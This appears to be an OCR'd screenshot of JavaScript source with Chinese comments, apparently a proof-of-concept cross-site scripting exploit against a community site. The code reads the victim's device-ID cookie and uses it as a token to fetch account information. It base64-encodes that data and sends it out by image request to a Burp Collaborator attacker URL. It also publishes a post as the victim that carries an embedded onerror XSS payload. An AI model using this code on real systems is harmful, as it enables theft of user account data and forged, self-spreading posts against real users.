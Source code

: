     // 构造POST发送请求
    const myPostFetch = async (url, token, payload) => {
        let data = await fetch(url, {
            method: 'POST',
            headers: {
                'Identifier': token,
            },
            body: JSON.stringify(payload),
        })
        let res = await data.json();
        return res
    }

    // 通过img src来向burpsuite collaborator url外送敏感新信息
    const justSend = async url => {
        var Img = new Image
        Img.src = url
    }

    // base64 加解密
    const encode = str => {
        var b64 = btoa(unescape(encodeURIComponent(str)))
        return b64
    }
    const decode = str => {
        var str = decodeURIComponent(escape(atob(str)));
        return str
    }

    // 发送请求获取用户信息后，向攻击者服务器外送
    const startSend = async function() {
        const deviceid = getCookieValue('jssdk_deviceid')
        res = await myFetch('https://sowellwell.com/w/v1/account/info', deviceid)
        var encoded = encode(JSON.stringify(res))
        // send data
        justSend(api_burp+'?data='+encoded)
    }

    // 代替受害者发送恶意帖子
    const startSendPost = async function() {
        const deviceid = getCookieValue('jssdk_deviceid')
        var payload =  {
            "coid":"",
            "coids":[],
            "title":"鹅鸭杀有组队的吗222223333？",
            "content":"<div id=\"mobile_article_theme_warm\" class=\"content_markdown_body\"><p>如题<img src=x onerror=alert(document.domain)></p></div>",
            "device_name":"Web",
            "watermark":true,
            "media":[],
            "publish_type":"post"
        }
        res = await myPostFetch('https://sowellwell.com/w/v1/community/post/new', deviceid, payload)
    }
